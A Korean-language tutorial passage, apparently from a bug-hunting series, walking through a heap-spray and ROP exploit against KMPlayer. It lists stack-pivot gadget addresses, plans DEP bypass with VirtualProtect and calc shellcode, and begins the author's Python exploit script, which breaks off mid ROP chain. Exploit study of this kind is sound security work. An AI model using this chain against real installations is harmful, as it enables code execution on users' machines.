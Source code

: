 마지막 메모리가 전체 비트맵 이미지를 담고 있는 부분이기 때문에 해당 메모리 기준으로 계산하면 됩니다. `0x11111111 – 0x101cb056 = 0xF460BB` 네요. 앞에서 객체를 덮을 때에는 파일 기준으로 앞 부분 데이터를 가져와 복사하기 때문에 페이로드를 담는 데에는 큰 문제가 없을 것 같습니다!!

자 이제 페이로드를 작성해야합니다. 페이로드를 작성하기 전에 MONA 와 메타스플로잇을 사용해서 모듈들의 미티게이션 적용 항목, 필요한 가젯 검색, 쉘코드 생성을 해야하는 데 이 부분은 인터넷을 검색하면 많이 나오기 때문에 생략하도록 하겠습니다. 결론적으로 `KMPlayer.exe` 에 Rebase 가 안 걸려있어서 `KMPlayer.exe` 에 있는 가젯을 사용하도록 할 것이구요, 메타스플로잇을 통해서는 계산기를 실행시키는 쉘코드를 만들 것입니다.

일단 ASLR 은 스프레이로 어느 정도 커버하였고 DEP 만 무력화시키고 쉘코드를 작성하면 됩니다. DEP 를 무력화하려면 ROP 를 해야죠!! 이제 esp 를 우리 데이터가 있는 힙 메모리로 피봇시킬 것입니다. 음 적당한 가젯을 찾아보도록 하죠.

```c
0x00523702 : # PUSH ECX # POP ESP # POP ESI # POP EBX # RETN
```

일부로 두 번 더 POP 해주는 이유는 위에 보시다시피 `0x11111111` 부분에 8 바이트가 다른 데이터로 덮혀 있기 때문에 이 8 바이트를 뛰어넘고 리턴하기 위함입니다.

자 그러면 페이로드를 작성할 때 아래와 같이 하면 되겠네요.

제일 처음 부분에는 위 가젯의 주소를 사용할 겁니다. 그리고 바로 그 뒤에는 또 피봇하는 가젯을 넣어줄 겁니다. 이번에는 그냥 힙에서만요. 왜냐하면 이번에는 `0x101cb056` 에 매핑이 되었지만 다음에 또 이 언저리 주소에 매핑될 때도 이 주소라는 보장이 없으니깐요. 최소한 하위 2 바이트는 바뀌겠죠. 그렇기 때문에 esp 를 스택에서 힙으로, 다시 힙에서 다 높은 주소의 힙으로 피봇하는 가젯 두 개를 스프레이해줄 겁니다. 힙에서 힙으로 피봇하는 가젯은 아래 껄로 쓰도록 할게요.

```c
 0x0095dffa : # ADD ESP,19010 # POP EBP # POP EDI # POP ESI # POP EBX # RETN
```

그리고 중간중간에 프로그램에서 힙을 쓰다가 바꾼 메모리들을 스킵할 수 있도록 아래 가젯을 사용하겠습니다.

```c
0x00433712 : # POP EDX # POP EDI # POP ESI # POP EBX # RETN
```

그리고 이제 높은 주소로 피봇했으면 그 부분에도 ret 으로 스프레이를 해주면 좀 더 정확도가 높아지겠네요 ㅎㅎ

그럼 파일을 구성할 때에는 아래와 같이 하면 되겠네요

![bughunting-tutorials-part4/Untitled.png](bughunting-tutorials-part4/Untitled.png)

아래는 제가 작성한 익스플로잇 코드입니다.

```python
from struct import pack, unpack
from collections import OrderedDict

def create_rop_chain():
	# rop chain generated with mona.py - www.corelan.be
	rop_gadgets = [
	0x00453c50, # POP EDX # RETN [KMPlayer.exe]
	0x00d6a848, # ptr to &VirtualProtect() [IAT KMPlayer.exe]
	0x0094eb72, # MOV EAX,DWORD PTR DS:[EDX] # RETN [KMPlayer.exe]
	0x007d2499, # XCHG EAX,ESI # RETN [KMPlayer.exe]
	0x00652cb0, # POP EBP # RETN [KMPlayer.exe]
	0x0042390c, # & jmp esp [KMPlayer.exe]
	0x004c0267, # POP EBX # RETN [KMPlayer.exe]
	0x00000201, # 0x00000201-> ebx
	0x0052d95d, # POP EDX # RETN [KMPlayer.exe]
	0x00000040, # 0x00000040-> edx
	0x0082f8e0, # POP ECX # RETN [KMPlayer.exe]
	0x00d0aafc, # &Writable location [KMPlayer.exe]
	0x009fc414, # POP EDI # RETN [KMPlayer.exe]
	0x00426485, # RETN (ROP NOP) [KMPlayer.exe]
	0x0068c402, # POP EAX # RETN [KMPlayer.exe]
```